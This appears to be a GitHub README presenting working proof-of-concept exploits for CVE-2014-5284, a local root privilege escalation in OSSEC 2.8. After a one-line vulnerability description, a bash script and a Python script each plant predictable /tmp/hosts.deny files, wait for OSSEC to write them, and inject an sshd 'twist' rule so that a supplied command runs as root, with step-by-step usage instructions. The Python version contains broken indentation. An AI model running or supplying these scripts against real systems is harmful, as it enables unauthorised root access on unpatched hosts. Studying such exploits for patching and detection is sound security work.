 INFO
----

host-deny.sh in OSSEC before 2.8.1 writes to temporary files with predictable filenames without verifying ownership, which allows local users to modify access restrictions in hosts.deny and gain root privileges by creating the temporary files before automatic IP blocking is performed.

CVE-2014-5284.sh
----------------

    #!/bin/bash

    ### CVE-2014-5284
    ### Exploit Title: ossec 2.8 Insecure Temporary File Creation Vulnerability Privilege Escalation
    ### Python is nice but doesn't work all the time
    ### Exploit Author: mbadanoiu

    # Python Exploit Author: skynet-13
    # Vendor Homepage: www.ossec.net/
    # Software Link: https://github.com/ossec/ossec-hids/archive/2.8.1.tar.gz
    # Version: OSSEC  - 2.8

    # Created from Research by
    # Jeff Petersen
    # Roka Security LLC
    # jpetersen@rokasecurity.com
    # Original info at https://github.com/ossec/ossec-hids/releases/tag/2.8.1

    function create_files {
        echo "=============================================="
        echo "Creating /tmp/hosts.deny.300 through /tmp/hosts.deny.65536 ..."

        for i in $range; do
            echo -n > /tmp/hosts.deny.$i
        done
    }

    function watch_files {
        echo "=============================================="
            echo "Monitoring tmp for file change...."
            echo "ssh into the system a few times with an incorrect password"
            echo "Then wait for up to 10 mins"
            echo "=============================================="

        ####insert non-empty logic here
        "$inotifywait" -e close_write /tmp/ --include "hosts.deny." |
        while read -r dir events file; do
            on_file_change "$dir$file"
            break
        done
    }

    function on_file_change {
        local file="$1"
        echo "File: $file has just been modified"
        write_exploit_to_file "$file"
    }

    function write_exploit_to_file {
        local file="$1"
        echo " sshd : ALL : twist $cmd " > "$file"  ###Don't waste time with printing

        echo 'Writing exploit to this file'
        echo "=============================================="
            echo " ssh in again to execute the command"
            echo "=============================================="
            echo "               End Prog."
        exit
    }

    function verify_inotifywait {
        if [ ! -f "$inotifywait" ]; then
            inotifywait=$(which inotifywait)
            if [ ! "$inotifywait" ]; then
                echo -e "\nNo inotifywait found on the target!"
                echo "Configure and make inotify-tools then run this script again:"
                echo -e "\tcd inotify-tools && ./autogen.sh && ./configure && make\n"
                exit
            fi
        fi
    }

    #####MAIN######
    cmd="$1"

    if [ -z "$cmd" ]; then
        echo "Usage of program:"
        echo -e "\tbash $0 <Command_to_run_as_root_in_quotes>"
        exit
    fi

    range=$(seq 300 65535)

    SCRIPT=$(realpath "$0")
    SCRIPTPATH=$(dirname "$SCRIPT")
    inotifywait="$SCRIPTPATH/inotify-tools/src/inotifywait"

    verify_inotifywait

    create_files
    watch_files

ossec_host_deny.py
--------------------

    #!/usr/bin/python
    # Exploit Title: ossec 2.8 Insecure Temporary File Creation Vulnerability Privilege Escalation
    # Date: 14-11-14
    # Exploit Author: skynet-13
    # Exploit Modifier: mbadanoiu
    # Vendor Homepage: www.ossec.net/
    # Software Link: https://github.com/ossec/ossec-hids/archive/2.8.1.tar.gz
    # Version: OSSEC  - 2.8
    # Tested on: Ubunutu x86_64
    # CVE : 2014-5284

    # Created from Research by
    # Jeff Petersen
    # Roka Security LLC
    # jpetersen@rokasecurity.com
    # Original info at https://github.com/ossec/ossec-hids/releases/tag/2.8.1

    # Run this on target machine and follow instructions to execute command as root

    from twisted.internet import inotify
    from twisted.python import filepath
    from twisted.internet import reactor
    import os
    import optparse
    import signal


    class HostDenyExploiter(object):

        def __init__(self, path_to_watch, cmd):
            self.path = path_to_watch
            self.notifier = inotify.INotify()
            self.exploit = cmd

        def create_files(self):
            print "=============================================="
            print "Creating /tmp/hosts.deny.300 through /tmp/hosts.deny.65536 ..."

            for i in range(300, 65536):
                filename = "/tmp/hosts.deny.%s" % i
                f = open(filename, 'w')
                f.write("")
                f.close()

        def watch_files(self):
            print "=============================================="
            print "Monitoring tmp for file change...."
            print "ssh into the system a few times with an incorrect password"
            print "Then wait for up to 10 mins"
            print "=============================================="
            self.notifier.startReading()
            self.notifier.watch(filepath.FilePath(self.path), callbacks=[self.on_file_change])

        def write_exploit_to_file(self, path):
            print 'Writing exploit to this file'
            f = open(str(path).split("'")[1], 'w')
            f.write(' sshd : ALL : twist %s \n' % self.exploit)
            f.close()
            print "=============================================="
            print " ssh in again to execute the command"
            print "=============================================="
            print "               End Prog."
            os.kill(os.getpid(), signal.SIGUSR1)

        def on_file_change(self, watch, path, mask):
        file=str(path).split("'")[1]
            print 'File: ', file, ' has just been modified'
        if 'hosts.deny' in file:
                self.notifier.stopReading()
                self.write_exploit_to_file(path)


    if __name__ == '__main__':
        parser = optparse.OptionParser("usage of program \n" + "-c Command to run as root in quotes\n")
        parser.add_option('-c', dest='cmd', type='string', help='Used to specify a command to run as root')
        (options, args) = parser.parse_args()
        cmd = options.cmd
        if options.cmd is None:
            print parser.usage
            exit(0)
        ex = HostDenyExploiter('/tmp', cmd)
        ex.create_files()
        ex.watch_files()
        reactor.run()
        exit(0)